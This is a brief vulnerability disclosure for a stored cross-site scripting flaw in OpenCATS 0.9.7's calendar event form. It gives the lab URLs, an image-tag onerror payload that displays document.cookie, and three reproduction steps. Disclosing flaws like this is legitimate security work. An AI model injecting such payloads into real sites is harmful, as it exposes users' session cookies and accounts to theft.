 # Stored XSS in Calendar-Add-Event
Date: 2022/12/24

Exploit Author: Sakura501

Vendor Homepage: https://www.opencats.org/

Software Link: https://github.com/opencats/OpenCATS

Version: 0.9.7

Tested on: Windows11/PHP7.3.4/MySQL5.7.26

## URL&POC
`http://192.168.2.153/src/opencats/index.php?m=calendar`

`http://192.168.2.153/src/opencats/index.php?m=calendar&view=DAYVIEW&month=12&year=2022&day=25&showEvent=1`

`<img src=x onerror=alert(document.cookie);>`

## Attack Steps
1. Click the Calendat Menu.
2. Add an event, and fill the XSS payload in Title or Desc.
![image](https://user-images.githubusercontent.com/71068573/209456687-a0f913ed-2716-48aa-89b1-2ec13a3f3e13.png)

3. Click the Add Event button, then the stored XSS will be triggered. You can also click the incoming event to trigger this stored XSS.
![image](https://user-images.githubusercontent.com/71068573/209456734-5181d116-bc9d-4693-8871-cf31b33b4534.png)

![image](https://user-images.githubusercontent.com/71068573/209456721-53cb3b93-11a0-4dda-a264-f5bfbc70e0ac.png)

